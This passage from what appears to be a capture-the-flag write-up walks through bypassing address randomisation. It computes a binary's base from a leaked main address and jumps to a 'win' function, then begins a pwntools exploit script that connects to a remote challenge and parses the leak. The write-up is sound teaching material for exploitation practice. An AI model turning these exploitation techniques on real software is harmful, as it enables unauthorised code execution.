 As you can see, we won !

As we were running on local, the `flag.txt` file was not present.

But it worked !!! Yayy !

Now, how did I end up with that address ?

We are given the following addresses:

|               |                |
|---------------|----------------|
|Address of main|`0x63c913eb933d`|
|Offset of main |    `0x133d`    |

To calculate the base address, we subtract the offset from the address of main:

|            |                                              |
|------------|----------------------------------------------|
|Base Address|`0x63c913eb933d` - `0x133d` = `0x63c913eb8000`|

Next, we know the offset of the "win" function:

|             |        |
|-------------|--------|
|Offset of win|`0x12a7`|

To calculate the jump address, we add the base address and the win offset:

|            |                                              |
|------------|----------------------------------------------|
|Jump Address|`0x63c913eb8000` + `0x12a7` = `0x63c913eb92a7`|

Thus, the win address is `0x63c913eb92a7`.

# Automating

This'll be a recurent topic on that "serie": Automating the exploitation.

With access to tools like pwntools, making exploits that'll do all the job for you became ridiculously easy.

So, we'll make a Python script, using that PwnTools lib to exploit this script.

Note: As we advance, the scripts will be more and more complex, and less and less explained in details. But for now, let's go in details.

Here's the script I came with:

```py
from pwn import *

host = args.HOST or input("host: ")
port = int(args.PORT or input("port: "))

main_offset = 0x133D
win_offset = 0x12A7

p = remote(host=host, port=port)

raw_data = p.recvline().decode()

log.info(f"Received:\n{raw_data}")

main_address = raw_data.strip().split(" ")[-1]
main_address = int(main_address.split("x")[-1], 16)

log.info(f"=== MAIN_ADDRESS: {hex(main_address)} ===")
```